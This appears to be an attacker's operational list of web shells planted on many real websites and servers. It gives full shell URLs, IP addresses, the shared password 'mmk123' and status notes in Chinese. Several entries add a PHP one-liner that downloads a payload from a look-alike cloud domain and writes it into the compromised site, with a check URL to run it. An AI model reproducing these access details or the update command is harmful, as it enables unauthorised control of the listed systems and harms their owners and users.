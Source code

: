 http://36.137.146.112:9001/template/default/fileinput/css/index_bk.php |mmk123 
http://36.137.146.112:9001/index_bk.php |mmk123 
http://118.25.152.47:7077/index_bk.php |mmk123 
https://www.alsophila.net/indexbak.php大马 |Admin001... |大马 | 111.229.208.84
https://111.229.208.84/runtime/data/9e776527ecbc372af46aafe2257957ebfd4.php |mmk123 
https://111.229.208.84/index_bk.php |mmk123 
http://123.56.162.208/index_bk.php |mmk123 
http://8.140.22.9/index_bk.php |mmk123 
http://49.235.71.132:384/index_bk.php |mmk123 

http://bama.jnlg.com.cn/assets/css/skins/skins.php |mmk123 |  111.229.186.206 | 404
http://ziku.jnlg.com.cn/h5/js/rem.php |mmk123 |  111.229.186.206
https://42.51.41.208/runtime/config/4b42677b6c14022f2e21a2a92524fde.php |mmk123 
https://42.51.41.208/index_bk.php |mmk123 
https://www.honggutai.com/index_bk.php |mmk123 |  8.137.167.188


phpboot_dd

https://zhimazhihui.com/ |mmk123 |  81.68.249.222
http://www.loront.com/template/default/images/sms/mr1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.com/1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.cn/static/upload/image/20220724/mr1.php |mmk123 |  81.68.249.222
https://kangbanmeijia.com/template/default/bootstrap/css/2m.php |mmk123 |  81.68.249.222
https://gpzyjy.com/static/upload/image/20220909/2m.php |mmk123 |  8.141.57.49 | 禁止访问

http://www.zhengxin7.com/uploads/allimg/230306/1m.php |mmk123 |  61.160.192.97
代码更新：0608 ✅
http://www.zhengxin7.com/gywm/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.zhengxin7.com/data/httpd.php?d=up

https://www.zhengxin6.com/uploads/allimg/230418/1m.php |mmk123 |  163.181.78.249
https://www.zhengxin123.net/uploads/20230404/1m.php |mmk123 |  61.160.192.102
https://www.zhengxin2.com/images/swfupload/plugins/12m.php |mmk123 |  61.160.192.100
http://www.zhengxin3.com/plus/img/face/32m.php |mmk123 |  61.160.192.100

https://dpjk.qxlcyjt.com/yCEjBQrapG.php |mmk123 |  47.97.25.132 | 404
http://xl.dzpc.net/m/images/32m.php |mmk123 |  47.96.84.204 | 连接不上

https://xr.xkji.cn/yuq/js/32m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://xr.xkji.cn/photo/httpd.php
<?php file_put_contents("../kz/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xr.xkji.cn/kz/httpd.php?d=up

http://jobtool.ehongya.com/templates/default/index.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://jobtool.ehongya.com/h5/httpd.php
<?php file_put_contents("../install/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://jobtool.ehongya.com/install/httpd.php?d=up

